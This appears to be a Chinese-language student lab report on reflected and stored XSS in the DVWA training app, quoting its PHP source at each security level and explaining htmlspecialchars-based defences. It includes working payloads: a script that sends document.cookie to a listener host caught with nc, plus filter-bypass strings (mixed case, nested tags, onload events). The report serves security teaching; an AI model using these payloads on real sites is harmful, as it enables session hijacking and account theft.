









# 实验一

## XSS-跨站脚本执行漏洞实验

## 实验原理

XSS又称CSS，全称Cross SiteScript，跨站脚本攻击，是Web程序中常见的漏洞，是被动式且用于客户端的攻击方式。其原理是攻击者向有XSS漏洞的网站中输入(传入)恶意的HTML代码，当其它用户浏览该网站时，这段HTML代码会自动执行，从而达到攻击的目的。如盗取用户Cookie、破坏页面结构、重定向到其它网站等。

## 实验环境

* kali虚拟机
* apache服务器
* DVWA
* php+html+java

### 实验过程

### 配置虚拟机



### 反射型xss攻击

> 反射型XSS，也叫非持久型XSS，是指发生请求时，XSS代码出现在请求URL中，作为参数提交到服务器，服务器解析并响应。响应结果中包含XSS代码，最后浏览器解析并执行。从概念上可以看出，反射型XSS代码是首先出现在URL中的，然后需要服务端解析，最后需要浏览器解析之后XSS代码才能够攻击。

---

查看源码，可以看到，在安全等级为低时，源码中没有对用户提交的数据做任何处理，只是简单判断如果提交的数据是否存在，在则就输出Hello+提交的内容



测试代码：

```
<script> alert('xss')</script> //验证弹窗
<script>location='https://www.baidu.com'</script>  //重定向到百度
```

测试结果：





#### 获取cookie实验

首先测试构造获取cookie的JavaScript代码：`<script>alert(document.cookie)</script>`


在本机/var/www/html中制作js脚本

```
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```



在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试，获取用户cookie

```
<script src='http://10.0.2.6/xxsec.js'></script>
```



### 存储型xss攻击

> 存储型XSS，也叫持久型XSS，主要是将XSS代码发送到服务器（不管是数据库、内存还是文件系统等。），最典型的就是留言板XSS。用户提交了一条包含XSS代码的留言到数据库。当目标用户查询留言时，留言的内容会从服务器解析之后加载出来。浏览器发现有XSS代码，当做正常的HTML和JS解析执行。

------

测试代码：

```
<a href=http://10.0.2.6>登录</a>；//点击 ' 登录 '，直接跳转到http://10.0.2.6页面（自己搭建的服务器界面）
```



#### 获取cookie实验

在本机/var/www/html中制作js脚本

```
var img = new Image();
img.src = "http://10.0.2.6:88/cookies.php?cookie="+document.cookie;
```



在kali中使用`nc -vnlp 88`进行监听，在DVWA平台进行测试此行代码，获取用户cookie

```
<script src='http://10.0.2.6/xxsec.js'></script>
```




## 防护手段

### 反射型xss攻击防护

* 在安全等级为低时，源码中没有对用户提交的数据做任何处理，只是简单判断如果提交的数据是否存在且不为空，就输出Hello+提交的内容,极易被攻击

```js
low Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
```

* 使用str_replace函数将输入中的<script>替换成空，把script脚本当做字符串来处理，但仍可以将将<script>可以写成<Script>，大小写混淆绕过

例如

```js
<Script>alert(‘xss’)</script>
```

或者嵌入绕过，可以将script嵌入到<script>中

`<scr<script>ipt>`

```js
<scr<script>ipt>alert('XSS1')</script> 
```

```js
Medium Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

* 代码使用preg_replace() 函数用于正则表达式的搜索和替换，将script前后相关的内容都替换为空，使得双写绕过、大小写混淆绕过不再有效，即只要遇到与scipt有关的字符都进行替换为空，输入不在含有script；（正则表达式中i表示不区分大小写）

仅预防script代码插入，可以通过img、body等标签事件或者iframe等标签的src注入恶意的js代码

```js
<body οnlοad=alert('XSS2')>
<a href=http://10.0.2.6>登录</a>
```

```js
High Reflected XSS Source
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?>
```

* 当安全级别为impossible，使用htmlspecialchars() 函数把预定义的字符转换为 HTML 实体，防止浏览器将其作为HTML元素（恶意代码）；不能实现反射型XSS攻击；

```js
Impossible Reflected XSS Source
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

### 存储型xss攻击防护

* 对输入的name参数和message参数并没有做XSS方面的过滤与检查，并且数据存储在数据库中，所以存在明显的存储型XSS漏洞；

```js
Low Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Sanitize name input
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 由于对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码；对于name参数，使用str_replace函数将输入中的<script>删除，把script脚本当做字符串来处理，仍然存在存储型的XSS。

```js
<Script>alert(‘XSS’)</script>    #可以在name中将<script>可以写成<Script>，大小写混淆绕过
```

```js
Medium Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = str_replace( '<script>', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 对message参数使用了htmlspecialchars函数进行编码，因此无法再通过message参数注入XSS代码；对于name参数，High级别的代码使用preg_replace() 函数用于正则表达式的搜索和替换，将script前后相关的内容都替换为空，使得双写绕过、大小写混淆绕过不再有效；（正则表达式中i表示不区分大小写）虽然在name参数中无法使用<script>标签注入XSS代码，但是可以通过img、body等标签事件或者iframe等标签的src注入恶意的js代码。

  ```html
  <body οnlοad=alert('XSS2')>
  <a href=http://10.0.2.6>登录</a>
  ```

```js

High Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    //mysql_close();
}

?>
```

* 当安全级别为impossible时，对name、message参数均使用了htmlspecialchars函数进行编码，因此无法再通过name、message参数注入XSS代码，不能实现存储型XSS攻击。

```js
Impossible Stored XSS Source
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = stripslashes( $message );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
    $name = stripslashes( $name );
    $name = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $name ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $name = htmlspecialchars( $name );

    // Update database
    $data = $db->prepare( 'INSERT INTO guestbook ( comment, name ) VALUES ( :message, :name );' );
    $data->bindParam( ':message', $message, PDO::PARAM_STR );
    $data->bindParam( ':name', $name, PDO::PARAM_STR );
    $data->execute();
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

